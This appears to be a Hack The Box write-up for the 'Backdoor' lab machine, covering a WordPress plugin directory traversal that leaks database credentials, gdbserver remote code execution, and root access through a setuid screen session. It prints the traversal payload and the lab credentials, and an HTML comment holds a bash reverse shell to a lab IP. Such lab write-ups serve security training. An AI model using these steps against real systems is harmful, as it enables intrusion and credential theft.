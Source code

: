 ![](backdoor_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.125 backdoor.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Web server is running wordpress.

with wpscan, collected some infomation.

* : WordPress version 5.8.1 identified
* [i] User(s) Identified: admin

## WP-Plugin:eBook Download 1.1 - LFI/RFI

Manually go through wp common directories `/wp-content` and `/wp-includes`

* `/wp-includes` allowed indexing but nothing interesting there.
* `/wp-content`is not indexing but `/wp-content/plugins` directory is allowed indexing

there is a plugin in plugins directory

![](screenshots/index-plugin.png)

```bash
❯ searchsploit wordpress ebook download
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                          | php/webapps/39575.txt
----------------------------------------------------------------------------------- ---------------------------------
```

And right off the bat found Directory Traversal vulnerability in WordPress Plugin eBook Download 1.1 from searchsploit.

its smiply allowed file inclusion from `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

with lfi, get the `wp-config.php` file and db creds: `wordpressuser:MQYBJSaD#DxG6qbm`.

**Don't get anything interesting**

Moving on to port 1337 but not able to identify the service.

## identifying services with `/proc`

we have lfi that means we can read system file and use this ability and try to find the port 1337 service.

in linux everything is file even a running process and we can read every process from `/proc`; **Source: proc [man page](https://man7.org/linux/man-pages/man5/proc.5.html)**

**`/proc`** : The proc filesystem is a pseudo-filesystem which provides an interface to kernel data structures.

**`/proc/[pid]`** : subdirectories Each one of these subdirectories contains files and subdirectories exposing information about the process with the corresponding process ID.

**`/proc/[pid]/cmdline`** : This read-only file holds the complete command line for the process.

I use burp intruder to brute force pid to find the process.

![](screenshots/proc-is-useful.png)

For curret boot, the PID for service that running on port 1337 in `862`
```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

## GDBserver Remote Payload Execution

Port 1337 is running gdbserver. We can connect to this service with gdb.

![](screenshots/gdb-connect.png)

There is a very old (2013) techinque on gdbserver to RCE from [jbremer.org](http://jbremer.org/turning-arbitrary-gdbserver-sessions-into-rce/)

To make this easy there is a metasploit module based on this exploit.

![](screenshots/gdb-msf-module.png)

Running msf module and get shell on the box

![](screenshots/run-msf.png)

<!--
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.40/4141 0>&1"
-->

# Privesc

## suid: `screen`

Running find command for setuip binary on the box and found `/usr/bin/screen` with setuip bit permission.

![](screenshots/find-setuid.png)

And  screen version `Screen version 4.08.00 (GNU) 05-Feb-20`

There is a [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/) in GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of logfile permissions.

Found exploit: https://github.com/XiphosResearch/exploits/tree/master/screen2root

But looks like this version of screen is not vulnerable for this exploit.

Another thing we can check is screen sessions with `screen -ls <username>/`
```bash
(remote) user@Backdoor:/etc$ screen -ls user/
No Sockets found in /run/screen/S-user.
```

And because screen command have suid permission we can also view root user sessions.
```bash
(remote) user@Backdoor:/etc$ screen -ls root/
There is a suitable screen on:
	53053.root	(11/22/21 07:35:40)	(Multi, detached)
1 Socket in /run/screen/S-root.
```

And there is one session active named `root`. We can access it with `screen -x <username>/<session-name>`
```bash
screen -x root/root
```
